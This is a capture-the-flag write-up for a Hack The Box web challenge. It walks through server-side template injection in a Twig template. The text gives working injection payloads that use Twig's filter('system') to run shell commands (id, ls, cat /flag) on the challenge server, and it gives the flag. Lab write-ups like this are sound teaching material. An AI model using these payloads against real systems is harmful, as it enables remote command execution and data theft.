





# Baby Bonecherwercon

## Description

The devil is enticing us to commit some sandboxed SSTI feng shui, would you be interested in doing so?
http://docker.hackthebox.eu:31115/

## Writeup



Upon opening the challenge link, we can see there is a form where we register a name.
This was by far the easiest web challenge.

Because of the description, we know it's an SSTI, So let's directy try to inject `{{7*'7'}}`



It resulted in `49`, So it's using `Twig` template. if the output was: `7777777` it'd be `Jinga2`.
You can refer to the diagram below to detect which template is used based on the input:


The exploitation part is quite easy, there is no filter at all, so we can just go ahead and use system function like this:

```
http://docker.hackthebox.eu:31115/?name={{["id"]|filter("system")}}
```



Let's look for the flag

```
http://docker.hackthebox.eu:31115/?name={{["ls -la /"]|filter("system")}}
```




```
http://docker.hackthebox.eu:31115/?name={{["cat /flag"]|filter("system")}}
```



#### Flag:

```
HTB{b3nt_tw1g_t0_my_will!}
```